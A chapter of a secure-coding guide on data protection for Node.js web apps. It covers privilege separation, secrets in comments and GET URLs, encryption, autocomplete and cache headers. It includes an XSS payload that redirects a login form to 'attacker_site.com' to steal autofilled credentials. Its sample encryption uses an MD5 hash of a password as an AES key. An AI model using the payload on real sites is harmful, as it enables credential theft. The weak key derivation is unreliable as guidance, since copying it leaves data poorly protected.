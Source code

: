 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this
section we will take a look at the different ways to secure it.

One of the first things you should take care of, is creating and implementing the
right privileges for each user and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices](http://LINK)
section of this document.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// Secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has a endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```javascript
var http = require('http');

var options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

callback = function(response) {
  var str = '';

  //another chunk of data has been recieved, so append it to `str`
  response.on('data', function (chunk) {
    str += chunk;
  });

  //the whole response has been recieved, so we just print it out here
  response.on('end', function () {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If you web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine that the user has expired credit cards on
his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

Also important is to ensure no server-side source code can be downloaded or
accessed by a user.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application.
See the [Cryptographic Practices][3] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][4] section) or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.JS using the
`crypto` package:
Link - `https://www.npmjs.com/package/bcrypt`

```javascript
'use strict';
const crypto = require('crypto');

// get password's md5 hash
let password = 'test';
let password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
let data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
var iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
let cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
let encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```javascript
//Express application
[...]

app.use(function (req,res,next){
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate')
  res.header('Pragma', 'no-cache')
  next()
});

[...]
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and
must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: http://LINK
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
